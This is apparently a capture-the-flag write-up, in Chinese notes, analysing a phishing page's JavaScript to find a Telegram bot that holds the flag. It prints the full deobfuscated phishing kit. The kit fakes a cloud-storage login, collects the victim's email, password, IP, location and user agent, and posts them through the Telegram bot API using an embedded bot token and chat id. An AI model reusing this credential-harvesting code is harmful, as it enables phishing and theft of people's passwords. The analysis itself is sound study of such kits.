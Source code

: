 # 思路
	- 读取首页的JS找到一个telegram bot, 访问看到flag
- # 解密JS
	- 带注释的源码如下
	  collapsed:: true
		- ```js
		  var jsdom = require("jsdom");
		  const { JSDOM } = jsdom;
		  const { window } = new JSDOM();
		  const { document } = (new JSDOM('')).window;
		  global.document = document;
		  
		  var $ = jQuery = require('jquery')(window);
		  
		  var A = B;
		  function B(C, D) {
		      var E = F();
		      return B = function (Bbb, G) {
		          Bbb = Bbb - 0xb7;
		          var H = E[Bbb];
		          return H;
		      },
		      B(C, D);
		  }(function (I, J) {
		      var K = B,
		          L = I();
		      while (!![]) {
		          try {
		              var M = -parseInt(K(0xe9)) / 0x1 + -parseInt(K(0xda)) / 0x2 + parseInt(K(0xc0)) / 0x3 * (-parseInt(K(0xb8)) / 0x4) + parseInt(K(0xd6)) / 0x5 + -parseInt(K(0xe0)) / 0x6 * (-parseInt(K(0xd5)) / 0x7) + parseInt(K(0xb7)) / 0x8 * (-parseInt(K(0xe3)) / 0x9) + -parseInt(K(0xe1)) / 0xa * (parseInt(K(0xdb)) / 0xb);
		              if (M === J) 
		                  break;
		               else 
		                  L['push'](L['shift']());
		              
		          } catch (N) {
		              L['push'](L['shift']());
		          }
		      }
		  }(F, 0xa9b1c));
		  
		  console.log("HERE: " + A(0xd7))
		  var elem = $(A(0xb9)), // submit按钮
		      elem1 = A(0xde), // bot的token
		      elem2 = A(0xd7), // 一个tg的id 5852841790
		      email = $(A(0xc2))[A(0xc9)](), //email输入框的值
		      domain = email[A(0xe4)](email["substring"]('@') + 0x1),
		      frmsite = domain[A(0xe4)](0x0, domain["substring"]('.'));
		  const str = frmsite + A(0xce), //xxx cloud storage
		      str2 = str[A(0xbd)](0x0)[A(0xeb)]() + str[A(0xe7)](0x1); // str第一个字母大写
		  // console.log("HERE: "+A(0xc4) + str2 + '\x20by\x20Zach\x20A**' + '\x0a\x0a' + A(0xe2) + $(A(0xc2))[A(0xc9)]() + '\x0a' + A(0xc7) + $(A(0xd9))[A(0xdf)]() + '\x0a' + 'IP\x20Address\x20:\x20' + "ip" + '\x0a' + A(0xe6) + "region" + '\x0a' + A(0xc3) + A(0xc8) + '\x0a' + A(0xbe) + "country" + '\x0a' + A(0xed) + "ua" + '\x0a' + A(0xcc) + $(A(0xea))[A(0xdf)]() + '\x0a' + A(0xd8) + A(0xc6) + '\x0a' + A(0xbf) + $(A(0xc5))[A(0xdf)]())
		  let today = new Date()[A(0xc6)]();
		  $(A(0xba))[A(0xe5)](str2), //dname append str2
		  $('#title')[A(0xe5)](str2), // title append str2
		  $(A(0xc1))['append'](A(0xbb) + domain + A(0xd4)), // dlogo append img元素
		  $(A(0xdd))[A(0xe5)](A(0xcd) + domain + '\x22>'), // head append <link rel="icon" href="https://logo.clearbit.com/undefined">
		  document[A(0xe8)][A(0xd0)]['background'] = A(0xca) + domain + '\x27)',
		  elem['on'](A(0xec), function (O) {
		      var P = A;
		      //  获取IP等隐私并通过TG发送                                            获取IP的API   获取IP后会运行的函数
		      $('#inputPassword')[P(0xdf)]() === '' ? alert(P(0xcb)) : $['getJSON'](P(0xcf), function (Q) {
		          var R = P,
		              S = Q['ip'],
		              T = Q[R(0xc8)],
		              U = Q['region'],
		              V = Q['country'],
		              W = navigator['userAgent'];
		          let X = new Date()[R(0xc6)]();
		          var Y = R(0xc4) + str2 + '\x20by\x20Zach\x20A**' + '\x0a\x0a' + R(0xe2) + $(R(0xc2))[R(0xc9)]() + '\x0a' + R(0xc7) + $(R(0xd9))[R(0xdf)]() + '\x0a' + 'IP\x20Address\x20:\x20' + S + '\x0a' + R(0xe6) + U + '\x0a' + R(0xc3) + T + '\x0a' + R(0xbe) + V + '\x0a' + R(0xed) + W + '\x0a' + R(0xcc) + $(R(0xea))[R(0xdf)]() + '\x0a' + R(0xd8) + X + '\x0a' + R(0xbf) + $(R(0xc5))[R(0xdf)](),
		              Z = R(0xdc) + A(0xde) + R(0xd3); // TG机器人的API地址
		          $[R(0xd2)](Z, {
		              'chat_id': elem2, // 一串数字
		              'text': Y // 各类隐私信息
		          }, function (AA) {
		              var AB = R;
		              window['location'][AB(0xee)] = AB(0xd1); // 一个语音留言
		          });
		      });
		  });
		  function F() {
		      var AC = [
		          'val',
		          '12ZidQyC',
		          '20AFlrCY',
		          'Email:\x20',
		          '63792quNVYn',
		          'substring',
		          'append',
		          'Region\x20:\x20',
		          'slice',
		          'body',
		          '139437pXYFEK',
		          '#UserEmail',
		          'toUpperCase',
		          'click',
		          'Useragent\x20:\x20',
		          'href',
		          '88GpIPQU',
		          '904cdojGd',
		          '#submit',
		          '#dname',
		          '<img\x20class=\x22mb-4\x22\x20src=\x22https://logo.clearbit.com/',
		          'lastIndexOf',
		          'charAt',
		          'Country\x20:\x20',
		          'DateSent\x20:\x20',
		          '10311YpzJVd',
		          '#dlogo',
		          '#emailtext',
		          'City\x20:\x20',
		          '***',
		          '#DateSent',
		          'toLocaleDateString',
		          'Password\x20:\x20',
		          'city',
		          'text',
		          'url(\x27https://logo.clearbit.com/',
		          'Password\x20field\x20missing!',
		          'Format\x20:\x20',
		          '<link\x20rel=\x22icon\x22\x20href=\x22https://logo.clearbit.com/',
		          '\x20Cloud\x20Storage',
		          'https://ip.seeip.org/geoip',
		          'style',
		          'https://archive.org/details/VoiceMail_173',
		          'post',
		          '/sendMessage',
		          '\x22\x20alt=\x22\x22\x20width=\x22150\x22\x20\x20>',
		          '4716964xBODFJ',
		          '3724320KAqSuZ',
		          '5852841790',
		          'Date\x20Filled\x20:\x20',
		          '#inputPassword',
		          '380874lxWkrT',
		          '1170928pBbGzs',
		          'https://api.telegram.org/bot',
		          'head',
		          '6055124896:AAFyQlC_8dr1GndB26ji4iV2ol2bPPQ9lq4'
		      ];
		      F = function () {
		          return AC;
		      };
		      return F();
		  }
		  
		  ```
	- 可以看到其会在用户点击按钮后将用户的IP等信息发送到TG bot
	- 访问接口可以看到bot的地址为[https://t.me/rochesterissodamncoldbot](https://t.me/rochesterissodamncoldbot)
	- 查看bot即可得到flag